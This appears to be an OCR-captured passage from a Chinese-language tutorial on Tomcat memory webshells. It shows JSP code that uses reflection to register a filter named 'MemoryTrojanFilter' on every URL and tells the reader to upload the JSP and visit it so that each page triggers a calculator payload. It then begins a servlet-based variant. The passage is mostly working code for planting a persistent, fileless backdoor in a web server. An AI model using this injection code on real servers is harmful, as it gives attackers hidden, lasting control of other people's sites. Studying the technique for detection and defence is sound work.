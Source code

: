         MemoryTrojanFilter memoryTrojanFilter = new MemoryTrojanFilter();
        filterDef.setFilter(memoryTrojanFilter);
        filterDef.setFilterClass(String.valueOf(memoryTrojanFilter.getClass()));
        filterDef.setFilterName(memoryTrojanFilter.getClass().getName());
        // 2.1.2 往 filterDefs 里面插值
        standardContext.addFilterDef(filterDef);
        // 2.2.1 创建 filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName(memoryTrojanFilter.getClass().getName());
        filterMap.addURLPattern("/*");
        // 2.2.2 插入到 filterMaps
        standardContext.addFilterMap(filterMap);
        // 2.3.1 创建 ApplicationFilterConfig
        // 无法通过 new 直接创建，因为 ApplicationFilterConfig is not public in 'org.apache...'. Cannot be accessed from outside package
        // 因此只能通过反射来创建对象
        Class<ApplicationFilterConfig> applicationFilterConfigClass = ApplicationFilterConfig.class;
        ApplicationFilterConfig applicationFilterConfig = null;
        try {
            Constructor<ApplicationFilterConfig> applicationFilterConfigConstructor = applicationFilterConfigClass.getDeclaredConstructor(Context.class, FilterDef.class);
            applicationFilterConfigConstructor.setAccessible(true);
            applicationFilterConfig = applicationFilterConfigConstructor.newInstance(standardContext, filterDef);
        } catch (NoSuchMethodException e) {
            throw new RuntimeException(e);
        }
        // 2.3.2 把 applicationFilterConfig 放入到 filterConfigs 当中，standardContext 中没有直接放入的方法，还得通过反射拿到 filterConfigs
        try {
            Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
            filterConfigsField.setAccessible(true);
            HashMap<String, ApplicationFilterConfig> filterConfigs = (HashMap<String, ApplicationFilterConfig>) filterConfigsField.get(standardContext);
            // 2.3.3 把 applicationFilterConfig 放入到 filterConfigs 当中
            filterConfigs.put(memoryTrojanFilter.getClass().getName(), applicationFilterConfig);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    %>
    </body>
    </html>
    ```

7. 将该代码放进一个 jsp 并上传，然后访问。之后只要访问该站点的页面，就会喜提计算器。

### 1.2 Servlet 内存马

1. 和 Filter 相似，`ContextConfig` 的 `configureContext()` 中注册了 servlet：
    ```java
    for (ServletDef servlet : webxml.getServlets().values()) {
        // 创建了一个 Wrapper 包装类
        Wrapper wrapper = context.createWrapper();
        // Description is ignored
        // Display name is ignored
        // Icons are ignored
    